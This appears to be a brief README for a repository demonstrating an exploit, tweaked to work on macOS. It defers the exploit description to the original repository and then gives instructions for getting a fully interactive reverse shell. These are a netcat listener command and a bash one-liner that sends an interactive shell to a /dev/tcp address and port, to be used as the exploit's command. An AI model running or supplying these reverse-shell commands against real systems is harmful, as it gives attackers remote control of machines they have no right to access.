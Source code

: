 For exploit description, please check README of original repo.

I've introduced some tweaks, so that this demo works on macOS.

For fully interactive reverse shell, you can open locally a nc listener:

```
nc -vl 1337
```

And in the 'reverse shell' exploit command open a shell with stdout redirected to network address and its stdin redirected to stdout:

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

